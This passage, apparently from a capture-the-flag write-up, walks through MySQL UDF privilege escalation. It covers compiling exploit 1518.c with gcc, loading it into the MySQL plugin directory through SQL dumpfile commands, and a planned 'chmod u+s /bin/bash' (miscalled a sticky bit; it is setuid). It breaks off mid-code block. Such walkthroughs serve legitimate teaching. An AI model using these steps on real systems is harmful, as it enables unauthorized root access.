 ```
![image](https://user-images.githubusercontent.com/69868171/120070984-0f871500-c05b-11eb-89ba-b68df29e8003.png)

But nothing interesting in the databases but can be usefull keep it and let run our `linpeas.sh` .

![image](https://user-images.githubusercontent.com/69868171/120071112-b23f9380-c05b-11eb-83a6-645a86d1faa1.png)

So we found a `MySQL-Exploit-Remote-Root-Code-Execution-Privesc` vulnerability link here `https://legalhackers.com/advisories/MySQL-Exploit-Remote-Root-Code-Execution-Privesc-CVE-2016-6662.html` also i try to confirm the version.

![image](https://user-images.githubusercontent.com/69868171/120071183-0fd3e000-c05c-11eb-9a00-13d0f7a6b999.png)

Cool let find our exploit.

![image](https://user-images.githubusercontent.com/69868171/120071251-5aedf300-c05c-11eb-82e8-6e9b4250be1f.png)

So i download the exploit on my machine seems we need to compile it let hit it.

`gcc -g -shared -Wl,-soname,1518.so -o 1518.so 1518.c -lc`

![image](https://user-images.githubusercontent.com/69868171/120071337-cdf76980-c05c-11eb-88d2-31c089d204dc.png)

Now let transfer it to our target.

![image](https://user-images.githubusercontent.com/69868171/120071380-0f881480-c05d-11eb-8fcf-f8a4f54da8e1.png)


Now we logged in to the MySQL.

`mysql -u root -p`

![image](https://user-images.githubusercontent.com/69868171/120071420-5970fa80-c05d-11eb-9d86-36ac2c10a4ad.png)

Now we are in MYSQL let create a table.

`use mysql;`

![image](https://user-images.githubusercontent.com/69868171/120071643-43b00500-c05e-11eb-84c9-70da365fe32b.png)

In this table, we inserted the link to 1518.so file we just imported from the local machine to /tmp directory.

We dumped the same file to /usr/lib/mysql/plugin/ directory (since it was vulnerable)

In the most important step, we created a UDF function named do_system, that will invoke the code that implements the function.

Hence, we are invoking the code “chmod u+s /bin/bash" to set the sticky bit on "bash"

```
create table shell(line blob);
insert into shell values(load_file('/tmp/1518.so'));
show variables like '%plugin%';
SHOW VARIABLES LIKE "secure_file_priv";
select * from shell into dumpfile '/usr/lib/mysql/plugin/1518.so';